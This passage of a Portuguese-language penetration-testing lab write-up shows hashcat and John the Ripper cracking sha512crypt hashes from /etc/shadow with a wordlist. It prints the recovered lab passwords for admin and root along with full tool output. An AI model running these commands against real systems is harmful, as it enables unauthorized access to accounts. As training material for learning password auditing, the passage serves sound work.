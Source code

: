 ```bash
Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /root/Desktop/wordlists/1000000-password-seclists.txt
* Passwords.: 1000003
* Bytes.....: 8529147
* Keyspace..: 1000003
* Runtime...: 1 sec

$6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9isy7knhpskIEQG.s9eB8auxVqrroksib7uQyiCtrJIgr48XmR8o7Pa7O/:foxtrot
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$2PjhBcvO4tMWKi5W$k/UUyb5mb3qTJ6Fr15cReTb0n/DQ9is...7Pa7O/
Time.Started.....: Fri Feb  3 14:23:19 2023 (4 secs)
Time.Estimated...: Fri Feb  3 14:23:23 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/root/Desktop/wordlists/1000000-password-seclists.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      542 H/s (20.16ms) @ Accel:512 Loops:128 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2048/1000003 (0.20%)
Rejected.........: 0/2048 (0.00%)
Restore.Point....: 1536/1000003 (0.15%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidate.Engine.: Device Generator
Candidates.#1....: sampson -> ball

Started: Fri Feb  3 14:21:53 2023
Stopped: Fri Feb  3 14:23:25 2023
```

E através do comando acima conseguimos quebrar a senha do usuário `admin` que é `foxtrot`.

<div class="page"/>

### **• Utilizando o John The Ripper**:

Para quebrar a senha do usuário `admin` utilizando o John The Ripper e bem simples, basta utilizar o comando abaixo:

```bash
root@INE:~/Desktop# john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 48 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
foxtrot          (admin)     
password         (root)     
2g 0:00:00:18 DONE (2023-02-03 14:28) 0.1070g/s 328.7p/s 657.4c/s 657.4C/s 123456..786786
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
